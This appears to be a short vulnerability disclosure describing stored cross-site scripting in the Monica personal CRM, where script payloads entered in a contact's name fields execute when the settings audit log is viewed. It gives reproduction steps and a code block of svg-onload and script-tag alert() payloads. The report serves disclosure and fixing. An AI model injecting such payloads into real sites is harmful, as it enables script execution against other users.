 # Description
 XSS queries being triggered from people info page by the **audit log** at the settings.
# POC
* adding people info filled with payloads [fig1](https://cdn.discordapp.com/attachments/749019614352244777/750572658319425536/monica3.1.PNG)
* Triggering payload [fig2](https://cdn.discordapp.com/attachments/749019614352244777/750572688254173244/monica3.2.PNG)
# Steps to reproduce
* add payloads at the [people page](https://app.monicahq.com/people) 
* trigger multiple payload at [audit log button](https://app.monicahq.com/settings/auditlogs)
# Payloads Used
``` javascript
< <svg/onload=alert("firstname1")><script> alert("firstname2_xss")</script> <script> alert("midname_xss")</script> <script> alert("Lname_xss")</script><svg/onload=alert(1)> (<svg/onload=alert("nickie1")>)
```